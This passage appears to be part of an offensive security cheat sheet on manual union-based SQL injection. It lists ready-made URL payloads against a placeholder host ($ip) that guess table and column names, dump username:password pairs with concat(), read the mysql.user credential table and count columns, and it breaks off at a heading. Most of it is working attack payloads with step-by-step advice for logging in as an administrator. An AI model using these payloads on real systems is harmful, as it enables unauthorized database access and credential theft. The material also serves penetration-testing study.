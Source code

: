 * Common column names are:

```
username, user, usr, user_name, password, pass, passwd, pwd etc..
```

* For example:

```
http://$ip/news.php?id=5 union all select 1,2,3 from admin/*
```

* If you see number 2 on the screen like before, then that's good, you know that there is a table called admin in the database. Else try another table name.
* Now to check column names:

```
http://$ip/news.php?id=5 union all select 1,password,3 from admin/*
```

* If you get an error, then try the other column name
* You will hopefully see the password on the screen in hash or plain-text, it depends of how the database is set up. For example i.e md5 hash, mysql hash, sha1...
* Now you must complete query to look nice for that you can use concat() function (it joins strings).

```
http://$ip/news.php?id=5 union all select 1,concat(username,0x3a,password),3 from admin/*
```

* Note that I put 0x3a, its hex value for : (so 0x3a is hex value for colon)
* There is another way to do that, char(58), ascii value for a colon

```
http://$ip/news.php?id=5 union all select 1,concat(username,char(58),password),3 from admin/*
```

* Now you get displayed username:password on screen, i.e admin:admin or admin:somehash when you have this, you can login like admin or some superuser :D if can't guess the right table name, you can always try mysql.user (default) it has user and password columns, so an example would be

```
http://$ip/news.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*
```

### Test number of columns and Watch for any Error

```
http://$ip/artists.php?artist=1 order by 1,2,3,4
http://$ip/artists.php?artist=1 order by 1,2,3,4 -- LIMIT 1
http://$ip/artists.php?artist=1 -1 union all select 1/*
http://$ip/artists.php?artist=1 -1 union all select 2/*
http://$ip/artists.php?artist=1 -1 union all select 3/*
http://$ip/artists.php?artist=1 -1 union all select 4/*
```

### Test Injectable columns - Watch for visual Indicators (WAF filters)
